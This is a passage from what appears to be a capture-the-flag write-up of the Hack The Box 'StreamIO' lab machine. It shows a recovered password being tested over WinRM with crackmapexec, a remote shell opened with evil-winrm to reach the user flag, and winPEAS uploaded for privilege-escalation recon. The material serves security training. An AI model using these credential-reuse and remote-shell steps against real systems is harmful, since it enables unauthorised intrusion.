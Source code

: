```bash
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   2/22/2022 2:39:51 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Users  
```    

Now, with `crackmapexec`, let's try to use WinRM (TCP/5985) and see if we effectively have a remote access.

```bash
$ crackmapexec winrm streamio.htb -u nikk37 -p 'get_dem_girls2@yahoo.com'
SMB         streamio.htb    5985   DC               [*] Windows 10.0 Build 17763 (name:DC) (domain:streamIO.htb)
HTTP        streamio.htb    5985   DC               [*] http://streamio.htb:5985/wsman
WINRM       streamio.htb    5985   DC               [+] streamIO.htb\nikk37:get_dem_girls2@yahoo.com (Pwn3d!)

```

Awesome, this time we can use `evil-winrm` and grab the **first flag.

```bash
$ evil-winrm -i streamio.htb -u nikk37 -p 'get_dem_girls2@yahoo.com'

Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\nikk37\Documents> ls ..\Desktop


    Directory: C:\Users\nikk37\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        4/27/2023   7:14 PM             34 user.txt
```

## More Recon with winPEAS

Here, with [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS), we can scan the machine for information and potential privilege escalation paths.

```bash
*Evil-WinRM* PS C:\Users\nikk37\Documents> upload /home/ax/Downloads/winPEASx64.exe
Info: Uploading /home/ax/Downloads/winPEASx64.exe to C:\Users\nikk37\Documents\winPEASx64.exe
                                  
Data: 2702676 bytes of 2702676 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\nikk37\Documents> .\winPEASx64.exe

...[snip]...

LAPS Settings
If installed, local administrator password is changed frequently and is restricted by ACL 
```
